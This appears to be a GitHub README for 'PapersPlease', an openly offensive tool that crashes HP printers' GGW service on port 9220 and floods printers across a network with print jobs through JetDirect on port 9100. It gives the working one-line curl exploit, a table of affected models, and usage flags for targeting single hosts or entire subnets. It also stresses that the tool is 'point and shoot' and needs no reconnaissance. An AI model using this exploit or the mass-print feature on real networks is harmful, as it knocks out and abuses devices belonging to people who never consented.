 
<div align="center">

<img src="./Assets/Papers_Please_Logo.png" width="20%" />
<br><br>
</div>

## Description

PapersPlease is an exploit that allows an attacker to perform a remote Denial of Service against an HP printer by exploiting the internal GGW server found on port 9220. The tool also comes with the ability to mass print documents from either a single printer 
or all printers on a network by abusing HPs JetDirect protocol found on port 9100.

## How It Works

While the inner workings are more complicated, the exploit in its purest form is as follows:
<br><br>
`curl [IP]:9220 -X 'open 99999999'`
<br><br>
Whats happening here is we are telling the internal GGW server to retrieve the process name running on index number 99999999. However upon receiving the request, the GGW server will instantly crash.
At this time it is unknown exactly why the GGW server crashes when receiving such a request as it is well within range of the allowed index number length which is any number <= 19 digits. In addition, any index number 8 or 9 digits in length will cause the GGW server to crash.

## Known Affected Models
| Model | DoS | Mass Print | GGW Version |
| :---:  | :---: | :---: | :---: |
| HP Envy 7640 |  True  |  False  |  Version: 1.0  |

**NOTE**:<br>
While the above models are confirmed to be vulnerable, you will usually not know what you are exploiting in the real world.
As the program is made to be a 'point and shoot' no prior recon is required.

## Supported Platforms

All x86-64 Linux distributions.

Android phones are also compatible through <a href="https://termux.com/">Termux</a>, an Android terminal application. 

## How to Use

This program is designed to be very quick and simple to use. As most of the time it will not be required to pass any flags to the program. However you can manually enter which network is to be exploited with the `--network` flag. Or if not the entire network then a specific printer with the `--target` flag. In addition you can optimize the program through the `--jobs`, `--proc`, and `--slots` flags. These flags can be used when exploiting a large LAN i.e. a /16 or below, however they can be used with any sized network. 

## Usage

```
./Papers_Please.sh [OPTION]
OPTION:			    DESCRIPTION:
-t, --target={IP}	    Specify a specific
			    target rather than
		     	    all addresses on
			    the network.

-n, --network={IP/CIDR}     Manually specify the
			    network address for
			    the current network
			    you are on.

--papyrus={N}	    	    Number of jobs to
			    send to the printer
			    this should cause
			    the printer to print
			    N number of pages.

-i, --interval={N}  	    The interval before
			    another job is sent
			    to the printer. Where
			    N can be a decimal
			    i.e. 0.1 or a whole
			    number. The default
			    interval is 1.

-j, --jobs={-N|+N|N%|N}     Number of jobs to
			    run. Passes value
			    to parallel.
			    Defaults to 0.

-p, --proc={-N|+N|N%|N}	    Define the maximum
			    N of processes that
			    can be active at a
			    time. Defaults to
			    1.

-s, --slots={-N|+N|N%|N}    The amount of
			    'slots' available
			    to be used by
			    parallel for jobs.
			    Default is 252.

-P, --port={PORT} 	    Specify a specific 
			    port. Useful for 
			    port-forwarded
			    hosts. Port number 
			    is set automatically 
			    based on the attack
			    being preformed.
			    PORT can be any
			    number ranging
			    from 1 to 65535. 

--no-check		    Will skip dependency
			    checking.

-q, --quiet		    Suppress output to
			    terminal. Only the
			    progress bar from
			    parallel will be
			    printed to the
			    terminal in this
			    mode.

-v, --version		    Print version
			    information
			    then exit.

-h, --help		    Print this
			    dialog page.
```
